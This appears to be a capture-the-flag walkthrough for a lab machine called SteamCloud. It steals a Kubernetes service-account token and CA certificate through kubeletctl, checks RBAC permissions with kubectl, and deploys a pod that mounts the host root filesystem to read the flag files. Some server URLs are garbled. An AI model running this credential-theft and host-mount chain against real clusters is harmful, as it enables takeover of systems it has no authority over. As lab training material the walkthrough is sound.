 
Look up tokens 
````
kubeletctl --server steamcloud.htb exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20tokke.png)

##  Look up certs
````
kubeletctl --server steamcloud.htb exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx

`````

With this info login to Kubectl

##  Export togen --> make token an environmental variable
```
export token="tokenreceived"
````

##  login to Kubectl
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 get pods


`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20list%20listening%20pods.png)

##  list allowed commands
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 auth can-i --list

`````

commands get, create and list are allowed
![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/Kubelet%20list%20allowed%20commands.png)

##  Create pod in the default namespace with yaml config file:
##  pod.yaml
````
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true


`````


![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/yaml%20configuration%20file%20for%20Kubelet.png)

##  Kubelets apply custom pod.yaml file
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 apply -f pod.yaml

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/kubectl%20apply%20yaml%20file.png)

##  list listening/open pods
````
kubectl --token=$token --certificate-authority=ca.crt --server=https:##  10.10.11.133:8443 get pods

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/kubectl%20list%20open%20pods.png)

##  read user.txt
````
kubeletctl --server 10.10.11.133 exec "cat /root/home/user/user.txt" -p nginxt -c nginxt

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/kubeletctl%20read%20user.txt.png)

##  read root.txt
````
kubeletctl --server 10.10.11.133 exec "cat /root/root/root.txt" -p nginxt -c nginxt

`````

![](https://github.com/xenotim/CTF/blob/main/SteamCloud/screenshots/kubeletctl%20read%20root.txt.png)


XXXXXXXXXXXXXXXX
